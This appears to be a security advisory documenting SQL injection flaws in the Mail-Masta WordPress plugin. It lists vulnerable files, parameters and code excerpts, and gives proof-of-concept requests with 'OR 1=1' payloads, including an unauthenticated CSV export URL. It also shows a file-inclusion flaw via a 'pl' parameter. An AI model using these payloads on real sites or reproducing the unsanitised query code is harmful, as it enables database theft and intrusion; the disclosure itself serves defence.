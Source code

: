 Mail-Masta SQL Injection
=========================================
Page: ./wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

    http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ./wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign-list.php (Requires Wordpress admin)

GET Parameter: id

	Line 109: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");
	Line 111: 	$totals = $wpdb->get_results( "SELECT count(*) ts FROM $masta_report WHERE camp_id = $camp_id and status=1");
	Line 113: 	$totalm = $wpdb->get_results( "SELECT count(*) tm FROM $masta_report WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign.php (Requires Wordpress admin)

GET Parameter: id

	Line 39: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/add_member.php (Requires Wordpress admin)

GET Parameter: filter_list	

	Line 16: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit-list.php (Requires Wordpress admin)

	GET Parameter: id	

	====  Vulnerable Code  ====
	Line 21: 	$list_ans= $wpdb->get_results("select * from $mail_list where list_id=$list_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/edit_member.php (Requires Wordpress admin)

GET Parameters: filter_list, member_id

	Line 81: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");
	Line 89: 	$list_subs = $wpdb->get_results( "SELECT * FROM $masta_subs WHERE list_id = $list_id and id = $member_id");

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/campaign-delete.php 

GET Parameter: id

	(D:\mail-masta\inc\mail-campaign-data.php)
	Line 1303: 	$camp_id = $_GET["id"];
	Line 4: 	$result = $wpdb->query($wpdb->prepare("DELETE FROM $masta_campaign WHERE camp_id = $camp_id limit 1"));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/subscriber_list.php 

POST Parameter: list_id, subscriber_email

	Line 25: 	$check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id and email = '$email'";
	Line 27: 	$check_available = $wpdb->get_results($check_sql);
	Line 57: 	$list_form_data = $wpdb->get_results("SELECT * FROM $masta_list WHERE list_id = $list_id ");

=========================================



